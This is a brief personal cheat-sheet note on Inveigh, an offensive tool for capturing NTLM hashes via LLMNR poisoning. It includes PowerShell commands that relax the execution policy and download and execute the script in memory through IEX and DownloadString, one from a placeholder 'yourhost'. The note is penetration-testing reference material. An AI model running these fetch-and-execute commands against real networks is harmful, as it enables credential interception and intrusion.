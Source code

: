 ```yaml
---
tags:
  - tool
  - AD
date: 2023-09-1
---
```


- Inveigh is a tool similiar to [[Responder]] that allows you to capture [[NTLM]] hashes using [[LLMNR Poisoning]] BUT it does not *really* support SMB relay like responder does.

# Usage
```powershell
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
Import-Module ./Inveigh.psd1

# Or, to execute in memory
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")

# OR

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.psd1")
```




